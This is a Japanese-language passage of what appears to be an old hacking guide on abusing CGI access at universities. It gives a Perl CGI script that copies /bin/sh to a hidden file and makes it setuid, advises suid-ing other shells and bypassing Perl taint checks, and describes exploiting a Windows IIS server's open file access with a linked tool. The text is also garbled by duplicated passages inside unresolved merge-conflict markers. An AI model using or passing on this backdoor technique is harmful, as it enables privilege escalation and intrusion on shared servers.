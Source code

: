 だろう。

　しかし、最近の/bin/shは実UIDでないと意味の無い場合が多い。uid=500,euid=
=======
\-\-\-\-\-
\#!/usr/bin/perl

print "Content\-Type: text/plain\x0d\x0a\x0d\x0a";

system('cp /bin/sh /usr/tmp/.nobody') and print $!;
system('chmod 6755 /usr/tmp/.nobody') and print $!;
\-\-\-\-\-

だろう。

　しかし、最近の/bin/shは実UIDでないと意味の無い場合が多い。uid\=500,euid\=
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
48だったとして/bin/shを起動するとeuidが消えてしまうのだ!! これはまずいので
/bin/zshなど、この機能を持たないshellをsuidしよう。

　一番確実なのは、shellモドキを自分で作っておいて、それをsuidすることだろ
<<<<<<< HEAD
う。Perlの場合はsuidしたプログラムは-Uオプションでないと、かなり厳しい汚染
チェックを受けるので、うまくできない場合は#!/usr/bin/perl -Uを試してみよう。

　それでもダメな場合は、CGI-Shellを使ってみよう。
=======
う。Perlの場合はsuidしたプログラムは\-Uオプションでないと、かなり厳しい汚染
チェックを受けるので、うまくできない場合は\#!/usr/bin/perl \-Uを試してみよう。

　それでもダメな場合は、CGI\-Shellを使ってみよう。
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
　これについては次項で説明する。

3. WindowsサーバでCGI可は危険? （Windows/CGI）

　WindowsサーバではCGIがとても巨大なセキュリティーホールになっている場合が
ある。この巨大なセキュリティホールを学生が自由に利用できるようにしているの
だ！

　内容はこうだ、WindowsはUnix/Linuxほどしっかりしたマルチユーザーの概念が
ない（ように思える）。NTFSはファイルにアクセスできるユーザーを制限できる
が、それは設定を行った場合のみ有効で、行っていない場合全てのユーザーから
読み込み可能な状態にある。ありそうにない話だが、N社が管理するT大学のIIS
サーバはCGIからサーバ上のファイルが読み/書き/作成可能な状態にあった。
<<<<<<< HEAD
　「CGI != 掲示板」ということだ。
=======
　「CGI !\= 掲示板」ということだ。
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　以下に私が書いたサンプルプログラムを載せる。

http://hex51.darktech.org/scripts/win_nrcs.cgi.txt

　ドキュメントは以下参照。

http://hex51.darktech.org/documents/nrcs.html
